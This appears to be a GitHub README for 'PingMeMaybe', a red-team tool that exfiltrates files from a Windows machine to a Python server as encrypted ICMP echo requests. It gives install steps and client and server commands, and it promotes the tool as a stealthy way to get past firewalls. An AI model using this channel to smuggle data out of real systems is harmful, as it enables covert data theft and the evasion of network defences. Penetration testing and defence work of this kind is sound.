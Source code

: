 # PingMeMaybe👻

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE) 
![PowerShell](https://img.shields.io/badge/PowerShell-teal?logo=powershell&logoColor=white) 
![Python](https://img.shields.io/badge/Python-yellowgreen?logo=python&logoColor=white)

> **Covert ICMP-based file exfiltration tool**  
> Encrypted file transfer over ICMP echo requests for stealthy data smuggling.

---
## Overview

PingMeMaybe is a stealthy, encrypted file exfiltration tool leveraging ICMP echo request packets (ping) to covertly transmit files between a Windows client (PowerShell) and a server (Python).  
This tool is designed for red teamers and penetration testers who want to simulate data exfiltration via ICMP — a commonly allowed protocol that can bypass many firewall rules.

## Installation

### Server Requirements

- Python 3.7+
- Required Python packages:
  - `cryptography`
  - `rich`

### Download
Clone the repository or download the scripts manually:
```bash
git clone https://github.com/MAXIVA11/PingMeMaybe.git
cd PingMeMaybe
```
 
## Usage

### Server

Run the Python server script with root privileges to listen for incoming ICMP packets:

```bash
sudo python3 server.py
```
On startup, the server will generate and display a random AES-GCM key.
Copy this key exactly as shown — you will need it on the client side.

### Client

Run the PowerShell client script on a Windows machine with the following parameters:

```powershell
.\Invoke-PingMeMaybe.ps1 -Target <Server_IP> -File <Path_to_File> -HexKey <AES-GCM_Key>
```
- **Target**: The IP address of the machine running the server.

- **File**: The full path to the file you want to exfiltrate.

- **HexKey**: The AES-GCM key generated by the server (copy-paste exactly).

### Notes

- PowerShell 7+ is recommended for AES-GCM support; if unavailable, the script falls back to AES-CBC+HMAC encryption.

- Make sure ICMP echo requests are allowed through firewalls on both client and serve

## Photos

### Server Console Example
![image](https://github.com/user-attachments/assets/74012396-64f4-4578-9e5b-1d3e5d4cd5bf)


### Client Console Example
![image](https://github.com/user-attachments/assets/16391aa0-d0b7-4a3c-8867-3428b0ca4d01)

---

## Contribution

Contributions, issues, and feature requests are welcome!  
Feel free to check the [issues page](https://github.com/MAXIVA11/PingMeMaybe/issues).
